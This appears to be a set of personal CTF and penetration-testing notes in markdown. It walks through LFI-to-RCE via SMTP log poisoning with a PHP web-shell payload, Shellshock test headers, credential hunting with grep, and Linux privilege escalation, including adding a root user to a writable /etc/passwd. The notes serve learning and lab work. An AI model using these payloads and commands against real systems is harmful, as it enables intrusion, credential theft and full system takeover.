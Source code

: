Will organize things along the way 😌

When port 25 is open, and we have found an LFI on the server, then we can perform LFI2RCE through SMPT Log Poisoning. There are two ways (as far as I know) to do it. I'm going to
cover the one I have experience with.

First, read /etc/passwd through LFI and get interesting users. Then, connect to SMTP with

```
telnet <ip address> 25 (nc should work too)
```
Verify the users like so:
```
VRFY $user@localhost
```
If we get back

252 2.0.0 $user@localhost

Then we are good and we can syntax the malicious mail
```
mail from: temp
rcpt to: $user@localhost
data
Subject: Bruh
<?php echo system($_REQUEST['cmd']); ?>
.
```
Then we can go ahead and close our connection with ```quit```. Now, this mail is stored in the user's /var/mail file. Since we added a valid php script in the mail, it was passed
into the file, and we can freely use the cmd parameter to execute commands in the system and have it echo them back to us. Now we can pass e.g. a reverse shell.

References:
https://janithmalinga.github.io/redteam/ctf/2020/02/12/Using-LFI-and-SMTP-to-get-a-Shell.html
https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/ (the other way is specified here)
https://www.youtube.com/watch?v=XJmBpOd__N8

-------------------------------------------------------------------------

Beep from HTB had a possible RCE exploit which was based on VoIP. For now I don't know the whole concept, but I think I understand a general way of attacking VoIP. Essentially,
devices in a network are given an extension, i.e. a number by which they can be identified by the PBX server. So we try to find the extensions that are open, and attack them. In
a real-life scenario we probably intercept the traffic during the authentication phase and dump the creds, in boxes not really 😩 (unless bots exist)
https://www.exploit-db.com/docs/english/18136-paper-enumerating-and-breaking-voip.pdf


I'm gonna let this nicely written piece of text do the explanation for me
```
When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
```
TLDR if cgi-bin exists, then a possible entry point is shellshock. We can try testing for this manually by changing the headers to ```() { :;}; echo; echo 1```
Notice the second echo. It might be necessary for the exploit to work and write out the proper output. Another way we can check is though the nmap script engine
```
nmap -sV -p<ports> --script http-shellshock --script-args uri=<path>,cmd=ls <target>
```
Some PointsOfInformation. It may be necessary to execute a script by calling its absolute path

```
() {:;}; echo; /bin/ls
```

References:
https://nmap.org/nsedoc/scripts/http-shellshock.html
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://github.com/opsxcq/exploit-CVE-2014-6271
https://www.youtube.com/watch?v=IBlTdguhgfY


------------------------------------------------------------

If we gain access to a webserver (I'd say this applies more to low priv
access), and the machine is running PHP and a database, then we can search
for credentials to connect to said database. We could try something like:
```
grep -r <pattern-here> ./*
```
For the pattern we can use words like password, database, username, and once
we find an interesting one, we can search the file from which it came from.


## Privilege Escalation

### Enumeration

#### System Enumeration
`uname` is a linux command that prints system information. Different flags can be used, but for convenience sake use -a for all. Different files that can also give system information are */proc/version* and */etc/issue*
To get information on CPU architecture, run `lscpu`. Informations like sockets and core counts can determine whether exploits can be used or not.
To list services, run `ps aux`.

#### User Enumeration
Two commands to get the current user are
```
whoami
id
```
Of these, id is better because it gives more information about the gid of the user, and the groups he belongs in.
To get the commands the user can run as root, we run `sudo -l`
To get all the users in a system, we can read the */etc/passwd* file. We can get them with
`cut /etc/passwd -d : -f 1` (yup you don't have to cat and pipe)
Check the permissions of some files, like */etc/passwd* and */etc/groups*
Run ``history`` to get previous commands

#### Network Enumeration
To identify open ports and communication between the host system and other machines, run `netstat -ano`

### Exploitation

#### Kernel
To identify kernel version, run `uname -a` as listed above, and paste the version to google. Another way is through [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester), which automatically identifies CVEs, so it can find them. Below are some interesting links on linux kernel exploits:
-https://chao-tic.github.io/blog/2017/05/24/dirty-cow
-https://github.com/xairy/linux-kernel-exploitation

#### Passwords
To search for files with passwords potentially in them, execute the below commands
```
grep --color=auto -rin PASSWORD / 2> /dev/null
find / -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
We can modify them based on what we want. We can change the path from which they start (e.g. '/', '.', '/var/www/html;, '/opt', ...) or the pattern they search for (PASSWORD, PASSWORD=, PASS=, ...)
To automate the process we can use tools like linpeas.
**NOTE!** We can also search for passwords on binary files with `strings`

#### File Permissions

Depending on the OS the **/etc/passwd** & **/etc/shadow** files may be different. We can view their permission with these commands
```
#Passwd equivalent files
ls -l /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
ls -l /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
The important things to watch out is if **/etc/passwd** is writeable for a user or group we have access to, and if **/etc/shadow** is similarly writeable.
If /etc/passwd is writeable, we can add our own user, and we can give him root permissions by exploiting the [/etc/passwd syntax](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/). We definitely want to give him a uid and gid of 0, and **/root** as home dir. So we get this line `hacker:HASH_HERE:0:0:Hacker:/root:/bin/bash`. We can use one of the below lines to generate a valid hash
```
openssl passwd -1 -salt pass pass
mkpasswd -m SHA-512 pass
python2 -c 'import crypt; print crypt.crypt("pass", "$6$pass")'
```
So we get the line `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`
We can also add a line with no password hash `echo 'hacker::0:0:Hacker:/root/bin/bash`, remove the x from the root user, or change our user's uid, gid, and home fields. Be careful however as this decreases the security of the system

If **/etc/shadow** is readable, then we have the hashes of the users and we can easily crack them with **hashcat** or **JtR**. View [this](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/) link to learn more on that. To identify the hash mode for the tools, use [hashid](https://github.com/psypanda/hashID)

#### Sudo Shell Escaping

One of the most important commands when privescing is `sudo -l`, showing the list of allowed commands for the invoking user on the host. The best way to exploit the binaries shown is with [gtfobins](https://gtfobins.github.io/). If something doesn't appear there, then we google it.
